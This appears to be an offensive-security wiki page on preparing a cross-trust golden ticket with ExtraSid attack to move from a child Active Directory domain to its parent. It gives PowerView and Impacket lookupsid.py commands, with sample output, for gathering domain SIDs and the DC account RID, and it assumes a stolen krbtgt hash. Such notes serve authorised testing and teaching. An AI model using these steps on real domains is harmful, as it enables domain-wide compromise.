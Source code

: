 For creating a cross-trust golden ticket (Golden Ticket + ExtraSid) we'll need:

1. Child domain FQDN (`child.megacorp.local`);
2. Name of the child domain's DC machine account and its RID (`DC01$`, `1337`);
3. SID of the child domain (`S-1-5-21-4266912945-3985045794-2943778634`);
4. SID of the parent domain (`S-1-5-21-2284550090-1208917427-1204316795`);
5. Compomised krbtgt hash from the child domain (`00ff00ff00ff00ff00ff00ff00ff00ff`);
6. ???
7. PROFIT.

**1.** Child domain FQDN:

```
PS > $env:userdnsdomain
CHILD.MEGACORP.LOCAL
```

**2.** Name of the child domain's DC machine account and its RID:

{% tabs %}
{% tab title="Windows" %}
```
PV2 > (Get-NetComputer -ComputerName DC01.child.megacorp.local -FullData | select ObjectSID).ObjectSID
PV3 > (Get-DomainComputer DC01.child.megacorp.local | select ObjectSID).ObjectSID
S-1-5-21-4266912945-3985045794-2943778634-1337
```
{% endtab %}
{% tab title="Linux" %}
```
$ lookupsid.py megacorp.local/snovvcrash:'Passw0rd!'@DC01.megacorp.local | grep SidTypeUser | grep -i DC01
1337: MEGACORP\DC01$ (SidTypeUser)
```
{% endtab %}
{% endtabs %}

**3.** SID of the child domain:

{% tabs %}
{% tab title="Windows" %}
```
PV > Get-DomainSID
S-1-5-21-4266912945-3985045794-2943778634
```
{% endtab %}
{% tab title="Linux" %}
```
$ lookupsid.py megacorp.local/snovvcrash:'Passw0rd!'@DC01.megacorp.local 0 | grep 'Domain SID'
[*] Domain SID is: S-1-5-21-4266912945-3985045794-2943778634
```
{% endtab %}
{% endtabs %}

**4.** SID of the parent domain:

```
PS > (New-Object System.Security.Principal.NTAccount("megacorp.local","krbtgt")).Translate([System.Security.Principal.SecurityIdentifier]).Value
S-1-5-21-2284550090-1208917427-1204316795-502
```
